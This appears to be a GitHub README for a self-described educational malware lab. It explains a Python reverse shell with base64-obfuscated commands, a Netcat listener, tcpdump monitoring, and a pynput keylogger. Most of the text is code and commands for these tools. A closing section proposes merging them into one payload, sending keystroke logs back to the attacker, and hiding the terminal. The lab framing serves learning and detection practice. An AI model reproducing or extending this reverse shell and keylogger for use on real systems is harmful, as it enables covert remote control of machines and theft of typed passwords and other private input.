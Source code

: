 # reverse-shelling
Reverse Shell Simulation and Malware Analysis (Educational) 🔐

🧠 Educational Malware Simulation Lab
Created by Reeko Long | For ethical use only in isolated environments

🔹 What This Project Is
This is a controlled, educational simulation of basic malware behavior. It includes:

A Python reverse shell to simulate remote command access

A Python keylogger to simulate how attackers might capture keystrokes

Full understanding of how both tools work, how to build them, detect them, and defend against them

Run entirely inside a virtual Kali Linux lab for safety

🔹 Skills Gained
✅ Python scripting
✅ Linux CLI + networking
✅ TCP sockets & Netcat
✅ Base64 obfuscation
✅ Keylogging via pynput
✅ Virtual lab setup & security awareness
✅ Ethical hacking techniques
✅ Traffic monitoring using tcpdump
✅ Malware behavior detection

🔁 Reverse Shell (Attacker Gets Remote Access)
🧱 1. reverse_shell.py — What It Does
This script creates a backdoor that connects back to an attacker and lets them run terminal commands remotely.

Key lines:
python
Copy
Edit
import socket, subprocess
host = "127.0.0.1"
port = 4444
s = socket.socket()
s.connect((host, port))
What it means:

socket.socket() = make a virtual cable

connect() = call the attacker's computer (on IP 127.0.0.1 = localhost in this test)

Once connected, it waits for commands, runs them, and sends results back

Command loop:
python
Copy
Edit
command = s.recv(1024).decode()
output = subprocess.check_output(command, shell=True)
s.send(output)
What it does:

recv() waits for a command

subprocess.check_output() runs it like it was typed in a terminal

send() sends the output back to the attacker

🔒 Base64 Obfuscation
You upgraded it to:

python
Copy
Edit
import base64
encoded_command = s.recv(1024).decode()
command = base64.b64decode(encoded_command).decode()
Why?
To hide the command so it's not easily readable over the network.

Attacker now sends:

bash
Copy
Edit
echo -n "whoami" | base64
Which gives: d2hvYW1p
The victim script decodes it before running.

📡 Attacker Side: Using Netcat
In the attacker's terminal:

bash
Copy
Edit
nc -lvnp 4444
What it does:

nc = Netcat (network tool)

-l = listen

-v = verbose (show more info)

-n = don't do DNS lookup

-p 4444 = use port 4444

This listens for the victim to call back.

👀 Network Monitoring with tcpdump
In another terminal:

bash
Copy
Edit
sudo tcpdump -i lo port 4444 -A
Breakdown:

-i lo = watch the loopback interface (localhost)

port 4444 = only show traffic on that port

-A = print readable (ASCII) data

Used to analyze the communication between victim and attacker.

⌨️ Keylogger (keylogger.py)
🔐 What It Does
This script captures everything typed on the keyboard and saves it to a file.

Core code:
python
Copy
Edit
from pynput import keyboard
log_file = "keylog.txt"
pynput.keyboard = lets Python detect key presses

log_file = where all logs are saved

Capture logic:
python
Copy
Edit
def on_press(key):
    try:
        f.write(f"{key.char}")
    except:
        f.write(f"[{key}]")
key.char = regular letters

[key] = special keys like Enter, Ctrl, etc.

python
Copy
Edit
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
Listens for every keystroke until you stop it manually with CTRL + C

📁 Sample Output
Inside keylog.txt, you saw:

css
Copy
Edit
hgnfgbfgtrgrk[Key.enter][Key.enter]deactivate[Key.enter][Key.ctrl]c
That means you typed some gibberish, hit Enter a few times, typed deactivate, and stopped with Ctrl+C — all recorded accurately.

✅ How It Was Built and Tested
Kali Linux VM — safe isolated system

Wrote scripts using nano and VS Code

Ran Netcat listener, launched the shell, and executed commands

Sent base64-encoded payloads to simulate evasion

Ran the keylogger while typing and confirmed logs were created

Used tcpdump to monitor the exact communication flow

Ran everything in a virtual environment to avoid system damage

🔐 Responsible Use & Ethics
This project was built for:

Understanding attacker behavior

Practicing detection and mitigation

Learning Python + security tools

It was not run on any real machines or networks.

All testing was done in an isolated Kali VM, offline, for educational purposes only.

🗂️ Project Structure
bash
Copy
Edit
project/
├── reverse_shell.py         # Simulated malware that connects back to attacker
├── keylogger.py             # Captures keystrokes into keylog.txt
├── keylog.txt               # Output file with typed keys
├── screenshots/             # Visual proof of behavior
├── README.md                # Full explanation (this doc)
💬 Want to Expand It?
Combine reverse shell + keylogger into one payload

Send keylog.txt back to attacker using sockets

Add a GUI overlay (or hide the terminal)

Build a full "attacker simulator" platform for blue team training

